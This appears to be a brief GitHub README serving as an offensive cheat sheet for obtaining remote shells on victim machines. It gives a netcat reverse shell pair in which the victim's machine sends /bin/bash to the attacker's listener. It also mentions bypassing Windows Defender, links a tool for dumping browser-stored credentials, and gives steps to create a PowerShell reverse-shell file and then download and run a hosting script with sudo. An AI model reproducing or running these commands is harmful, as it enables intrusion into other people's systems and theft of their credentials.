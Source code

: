# ShellCode

### Shell Generator Resources(Reverse, Bind, HoaxShell, MSFVenom)
[Shell Generator](https://www.revshells.com) 

**MAC OS Example:** (Last tested 11/24)

- Attacker: nc -lvnp 1337

- Victim: nc 192.168.50.53 1337 -e /bin/bash

**Windwos 11 Example:**

- cat & mouse game to bypass defender


### Browser Extensions
[Hack-Tools Chrome Extension](https://chromewebstore.google.com/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi)

### Dump Web-Browser Creds
[git](https://github.com/moonD4rk/HackBrowserData.git) (Last tested 11/24)

### Spin Up a local Web Server on Linux (Last tested 11/24)
To set up a web server and host your script, follow these steps:

Create a PowerShell script:
   ```bash
   touch powershellreverse.bat
   echo "<ShellCode here>" > powershellreverse.bat
   wget https://github.com/NickolayMOmelchenko/ShellCode/raw/refs/heads/main/setup_windows_website.sh
   chmod +x setup_windows_website.sh
   sudo ./setup_windows_website.sh


